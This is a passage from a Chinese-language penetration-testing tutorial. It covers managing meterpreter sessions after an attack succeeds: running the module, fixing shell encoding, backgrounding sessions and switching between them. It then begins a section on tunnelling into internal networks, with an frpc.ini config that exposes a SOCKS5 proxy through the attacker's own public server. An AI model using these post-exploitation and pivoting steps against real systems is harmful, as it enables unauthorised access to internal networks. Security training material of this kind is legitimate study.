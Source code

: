 设置好参数后执行 run 命令即可攻击成功

![](imgs/image-20240726152912850.png)

若使用shell命令发现存在中文乱码的情况

使用 chcp 65001 命令即可解决

若要想从目标主机shell退出到meterpreter，我们只需输入：exit

输入background命令即可回到模块菜单，session将被置于后台

可以使用 sessions 命令查看当前有几个活跃的 session

输入sessions {id} 即可进入指定的session

## 内网穿透

### frp内网穿透

配置文件内容如下

```
# frpc.ini
[common]
server_addr = 自己公网服务器地址
server_port = 7000 # 远程服务器的frp监听端口

[frp]
type = tcp
remote_port = 6000
plugin = socks5
```
